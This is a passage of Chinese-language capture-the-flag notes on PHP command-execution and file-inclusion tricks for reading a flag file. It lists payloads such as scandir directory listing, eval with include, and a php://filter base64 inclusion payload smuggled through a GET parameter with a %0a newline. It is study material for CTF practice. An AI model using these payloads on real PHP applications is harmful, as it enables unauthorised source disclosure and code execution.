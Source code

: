 #### rename

```php
rename('flag.php','1.txt')
```

#### scandir扫描目录

- 如果上面的某些函数可以执行，但是flag不在当前目录的flag.php下，尝试改变目录

```php
var_dump(scandir('.')) //获取当前目录下的变量名称
var_dump(scandir('/')) //获取根目录下的变量名称
//也可以使用print_r函数
```

#### 翻php文档中的get、array

```php
get_definded_vars()
get_included_files()//返回所有被 include、 include_once、 require 和 require_once 的文件名
implode()//会把数组转换为字符串
```

### 
### 
### 
### 
### 
### 
### 
### 
### 
### 
### 
### 

### 利用文件包含

#### 包含+输出

```php
eval('include(flag.php);echo $flag')
```

```php
eval('include(flag.php);var_dump(get_defined_vars())')
```

#### 文件包含

-  include文件包含：执行到include函数才包含 

```php
?c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

